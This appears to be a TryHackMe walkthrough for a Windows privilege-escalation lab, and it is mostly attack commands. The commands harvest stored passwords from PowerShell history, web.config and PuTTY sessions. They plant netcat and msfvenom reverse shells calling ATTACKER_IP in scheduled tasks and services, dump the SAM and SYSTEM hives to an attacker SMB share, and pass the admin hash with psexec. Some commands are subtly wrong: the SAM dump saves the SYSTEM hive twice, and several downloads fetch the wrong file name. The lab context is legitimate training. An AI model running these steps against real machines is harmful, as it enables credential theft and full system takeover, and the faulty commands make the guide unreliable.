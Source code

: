## Commands to achieve the flags on TryHackMe - Windows Privilege Escalation.


*Note: I’ll only provide the commands needed to achieve the flags or obtain the results. I won’t share the actual flags—except for those that return a direct response. Tasks that were answered directly in the provided text will not be included here.*

**Task 3**
**A password for the julia.jones user has been left on the Powershell history. What is the password?**

```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

**A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?**

```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString ```

**There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.**

```runas /savecred /user:mike.katz@wprivesc1 cmd.exe  The flag is at c:\users\mike.katz\Desktop```

**Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?**

``` reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s ```

**Task 4**
**What is the taskusr1 flag?**
```
schtasks /query /tn vulntask /fo list /v
icacls c:\tasks\schtask.bat
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

nc -lvp 4444 (AttackBox)

schtasks /run /tn vulntask

Go to AttackBox and get the flag at c:\Users\taskusr1\Desktop\
```

**Task 5**
**Get the flag on svcusr1's desktop.**
```
On your Attack Machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
python3 -m http.server

On your Victim Machine
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe (using PowerShell)
cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F

On your Attack Machine
nc -lvp 4445

On your Victim Machine
sc stop windowsscheduler
sc start windowsscheduler

Then, on your attack machine (nc command) you should get cmd prompt on victim machine.

The flag is at svcusr1 Desktop
```


**Get the flag on svcusr2's desktop.**
```
On your Attack Machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
python3 -m http.server

On your Victim Machine
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc2.exe (using PowerShell)
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

On your Attack Machine
nc -lvp 4446

On your Victim Machine
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"

Then, on your attack machine (nc command) you should get cmd prompt on victim machine.

The flag is at svcusr2 Desktop
```

**Get the flag on the Administrator's desktop.**
```
On your Attack Machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
python3 -m http.server

On your Victim Machine
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc3.exe (using PowerShell)
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

On your Attack Machine
nc -lvp 4447

On your Victim Machine
sc stop THMService
sc start THMService

Then, on your attack machine (nc command) you should get cmd prompt on victim machine.

The flag is at Administrator Desktop
```

**Task 6**
**Get the flag on the Administrator's desktop.**
```
On your Victim Machine
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\system C:\Users\THMBackup\sam.hive

On your Attack Machine
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

On your Victim Machine
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

On your Attack Machine
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL  (get administrator hash)
python3.9 /opt/impacket/examples/psexec.py -hashes <ADMIN_HASH> administrator@MACHINE_IP

The flag is at Administrator Desktop
```
